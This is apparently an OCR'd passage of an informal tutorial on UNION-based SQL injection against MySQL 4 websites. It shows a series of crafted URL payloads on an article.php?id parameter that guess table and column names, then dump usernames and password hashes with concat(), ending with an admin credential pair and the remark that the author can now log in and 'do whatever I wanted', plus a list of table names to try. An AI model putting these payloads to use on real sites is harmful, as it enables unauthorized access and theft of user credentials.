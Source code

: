 So now u will have to guess the table name and column name until u do not get error. Also, if the MySQL version is below 5, you may have to depend on the luck & error messages displayed.. Sometimes the error will give you the table name & column name & that gives you some idea to guess the correct table & columns name.. Say, the error reports xenu_article in the error.. So, you know that xenu_ is the prefix used in the table names...

Anyway, lets go for MySQL version 4 injection...

For example, u would do as below:
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+1,2+FROM+user/*  
```

Here, I guessed for the table name as user. But this gave me the error because the table with the name user didn't exist on the DB. Now I kept on guessing for the table name until I didn't get error.

When I put the table name as tbluser, the page loaded normally. So I came to know that the table tbluser exists.
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+1,2+FROM+tbluser/*  
```
The page loaded normally. Now again u have to guess the column names present in the tbluser table.

I do something like below:
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+user_name,2+FRO+tbluser/* 
```
// this gave me error so there is no column with this name. 
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+username,2+FROM+tbluser/*  
```
// It loaded the page normally along with the username from the table. 
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+pass,2+FROM tbluser/* 
```
// it errored so again the column pass doesnot exist in the table tbluser. 
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+password,2+FROM+tbluser/* 
```
// the page loaded normally with password hash(or plaintext password). 
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+concat(username,0x3a,password),2+FROM+tbluser/*  
```
This gave me:
`admin:9F14974D57DE204E37C11AEAC3EE4940`

Now I just need to login the site and do whatever I wanted.

Few table names u may try are: user(s), table_user(s), tbluser(s), tbladmin(s), admin(s), members, etc. 
